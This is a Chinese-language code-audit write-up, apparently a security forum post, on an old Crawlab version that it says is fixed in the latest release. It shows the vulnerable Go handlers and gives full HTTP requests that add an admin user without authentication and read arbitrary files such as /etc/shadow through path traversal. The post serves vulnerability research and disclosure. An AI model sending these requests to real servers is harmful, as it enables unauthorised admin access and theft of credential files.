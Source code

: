 Goland 代码审计: GitHub 开源项目 Crawlab
================================

前言
--

在GitHub上找到了一个爬虫项目来进行代码审计漏洞挖掘，官方在去年12月重构了代码并转移到了Github，与此同时也修复了曾经出现的漏洞，这里主要分享一下重构前的版本 代码的漏洞分析思路

` 最新版本已不受影响 https://github.com/crawlab-team/crawlab `

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1edfb5386e5dacd48e92cc4a43927d483440e511.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-41b72bdbac5d2a8049f1639cba636f6511856dff.png)

功能了解
----

由于是开源项目，我们可以首先通过在本地进行搭建来了解功能

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-730c271887f01884b796fbbd292a2350b3db798e.png)

找到对应的路由文件 backend/main.go

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-482d5d3938fbb608f0aebcf7a73b9ceb8b9d7955.png)

可以看到两种不同的分组

` anonymousGroup 和 authGroup `

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b9096541e7f928fc4f3e61515c7040a1f661a721.png)

跟踪一下 AuthorizationMiddleware方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fbf71b3891f835a18c0328582c72fff546f381ef.png)

这里可以看到方法为权限验证的方法，其下的方法都需要通过身份验证才可以调用，我们如果想要找到前台的漏洞，就需要查看匿名可调用的方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1ef6ecc2c31e7005ed80f183746aceb9d6f22f30.png)

漏洞挖掘
----

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-932b5d5834aa10a8184583c9f9ec0d66397571fa.png)

在匿名可调用的方法里存在了一个在验证身份后才可调用的方法 PutUser，跟踪该方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3c475f8805ba1ec5c2e83df0dd0227a6d0dca123.png)

```php
// @Summary Put user
// @Description Put user
// @Tags user
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Param reqData body routes.UserRequestData true "reqData body"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /users [put]
func PutUser(c *gin.Context) {
    // 绑定请求数据
    var reqData UserRequestData
    if err := c.ShouldBindJSON(&reqData); err != nil {
        HandleError(http.StatusBadRequest, c, err)
        return
    }

    // 默认为正常用户
    if reqData.Role == "" {
        reqData.Role = constants.RoleNormal
    }

    // UserId
    uid := services.GetCurrentUserId(c)

    // 空 UserId 处理
    if uid == "" {
        uid = bson.ObjectIdHex(constants.ObjectIdNull)
    }

    // 添加用户
    if err := services.CreateNewUser(reqData.Username, reqData.Password, reqData.Role, reqData.Email, uid); err != nil {
        HandleError(http.StatusInternalServerError, c, err)
        return
    }

    c.JSON(http.StatusOK, Response{
        Status:  "ok",
        Message: "success",
    })
}
```

查看 CreateNewUser 方法调用所需要的字段

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-23b9654da94c27ea4a0fb2e9843543d5cf4fee0e.png)

```php
func CreateNewUser(username string, password string, role string, email string, uid bson.ObjectId) error {
    user := model.User{
        Username: strings.ToLower(username),
        Password: utils.EncryptPassword(password),
        Role:     role,
        Email:    email,
        UserId:   uid,
        Setting: model.UserSetting{
            NotificationTrigger: constants.NotificationTriggerNever,
            EnabledNotifications: []string{
                constants.NotificationTypeMail,
                constants.NotificationTypeDingTalk,
                constants.NotificationTypeWechat,
            },
        },
    }
    if err := user.Add(); err != nil {
        return err
    }
    return nil
}
```

role参数 所对应的权限可以在 backend/constants/user.go 中找到

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-221ce766f69af162bdca3f90c340ebe6f54d00a8.png)

通过发送 PUT请求 和对应的字段调用方法添加用户获取后台权限

```php
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a5192cbd3dc97fc2458a4058b05b3f314abd6a33.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b9fe2e1b38e077d346ea19f14c28733d9f5ffb67.png)

成功添加用户，这样就获取到了后台管理员的权限了, 对有权限的接口方法进行漏洞挖掘

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4b36feea7b88fdddad4fc8853c2c1aeade4f93f6.png)

找到一处获取文件的接口，跟踪一下方法

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ea7cdc9151321860c03ffb37b499e8760b02a5b7.png)

path参数可控，没有进行文件读取的过滤

```php
package routes

import (
    "crawlab/utils"
    "github.com/gin-gonic/gin"
    "io/ioutil"
    "net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
    path := c.Query("path")
    fileBytes, err := ioutil.ReadFile(path)
    if err != nil {
        HandleError(http.StatusInternalServerError, c, err)
    }
    c.JSON(http.StatusOK, Response{
        Status:  "ok",
        Message: "success",
        Data:    utils.BytesToString(fileBytes),
    })
}
```

接口调用为后台才可调用，通过任意用户添加可以完成绕过  
path参数可控，发送Get请求读取任意文件

```php
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
Connection: close
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3ae7c049ecfab68503a7fbbfdca0deea90f13f42.png)